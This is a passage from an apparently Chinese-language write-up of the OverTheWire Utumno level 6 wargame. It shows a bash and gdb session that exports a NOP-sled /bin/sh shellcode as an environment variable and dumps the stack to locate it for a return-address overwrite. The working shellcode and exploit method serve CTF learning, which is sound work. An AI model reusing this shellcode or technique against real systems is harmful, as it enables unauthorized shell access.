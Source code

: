 
所以在第二个参数里面写栈上的返回地址，第三个参数里面写shellcode环境变量地址。理论上就ok了。开始上号。

```bash
utumno6@utumno:/utumno$ export SHELLCODE=$(python -c 'print 200 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80"')

utumno6@utumno:/utumno$ gdb ./utumno6

(gdb) break *main
(gdb) r
Starting program: /utumno/utumno6 

Breakpoint 1, main (argc=1, argv=0xffffd624) at utumno6.c:22
22	utumno6.c: No such file or directory.

(gdb) x/1200wx $esp
...

0xffffdddc:	0x90903d45	0x90909090	0x90909090	0x90909090
0xffffddec:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffddfc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde0c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde1c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde2c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffde3c:	0x90909090	0xc0319090	0x2f2f6850	0x2f686873
---Type <return> to continue, or q <return> to quit---
0xffffde4c:	0x896e6962	0x31c931e3	0x2c0fb0d2	0x0080cd04
0xffffde5c:	0x52455355	0x7574753d	0x366f6e6d	0x44575000
0xffffde6c:	0x74752f3d	0x6f6e6d75	0x4e494c00	0x323d5345
0xffffde7c:	0x4f480035	0x2f3d454d	0x656d6f68	0x7574752f
0xffffde8c:	0x366f6e6d	0x48535300	0x494c435f	0x3d544e45

...

(gdb) info registers 
eax            0xf7fc6dbc	-134451780
ecx            0x7d45ea47	2101733959
edx            0xffffd504	-11004
ebx            0x0	0
esp            0xffffd4bc	0xffffd4bc
ebp            0x0	0x0
esi            0x1	1
edi            0xf7fc5000	-134459392
eip            0x80484db	0x80484db <main>
eflags         0x292	[ AF SF IF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99

```
